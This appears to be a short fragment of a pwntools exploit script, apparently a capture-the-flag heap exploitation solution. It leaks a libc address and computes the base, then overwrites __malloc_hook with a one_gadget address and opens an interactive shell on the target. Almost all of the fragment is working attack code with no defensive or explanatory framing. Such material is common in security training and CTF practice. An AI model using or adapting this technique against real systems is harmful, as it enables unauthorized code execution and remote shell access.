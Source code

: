 ```python
 60 show()
 61 libc.address=u64(p.recvuntil("\x7f")[-6: ] + '\0\0')-0x5be010
 62 success("libc -> {:#x}".format(libc.address))
 63 
 64 p.recvuntil(">")
 65 
 66 one_gadget=0xf02a4
 67 success("__malloc_hook -> {:#x}".format(libc.sym['__malloc_hook']))
 68 edit("1",p64(libc.sym['__malloc_hook']))
 69 edit("2",p64(libc.address+one_gadget))
 70 
 71 p.recvuntil(">")
 72 p.sendline("2")
 73 p.sendlineafter(": ","1")
 74 p.interactive()

```

